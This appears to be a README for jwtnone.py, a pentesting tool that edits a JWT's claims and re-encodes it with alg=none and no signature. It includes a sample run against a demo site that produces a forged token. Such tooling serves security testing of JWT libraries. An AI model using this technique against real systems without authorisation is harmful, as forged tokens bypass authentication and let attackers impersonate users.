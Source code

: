 # jwtnone.py
Tamper with JWT tokens and re-encode them with alg=none

JWT tokens are usually signed, but some JWT implementations will accept tokens with the alg parameter set to "none". When this is the case, the signature can be omitted and the token can be tampered with. 

jwtnone.py takes a jwt token, tampers with the contents, and returns a new token with alg set to none and the signature omitted. 


    $ python jwtnone.py
    usage: jwtnone.py [-h] [-t] token
    jwtnone.py: error: too few arguments
    $ python jwtnone.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2NjQwMjUxOCwiZXhwIjoxNTY2NDAyNjM4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.dP2xVOVMTLnRt2mZ1oUWK7vGSWS0czkeFJrvXTcDySk
    Current algorithm:  HS256
    Payload contents:  {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1566402518,"exp":1566402638,"data":{"hello":"world"}}
    -
    Tamper with payload contents:
      iss [ http://demo.sjoerdlangkemper.nl/ ] 
      iat [ 1566402518 ] 
      hello [ world ] 
      exp [ 1566402638 ] 
    New token:  eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiAiaHR0cDovL2RlbW8uc2pvZXJkbGFuZ2tlbXBlci5ubC8iLCAiaWF0IjogMTU2NjQwMjUxOCwgImRhdGEiOiB7ImhlbGxvIjogIndvcmxkIn0sICJleHAiOiAxNTY2NDAyNjM4fQ.


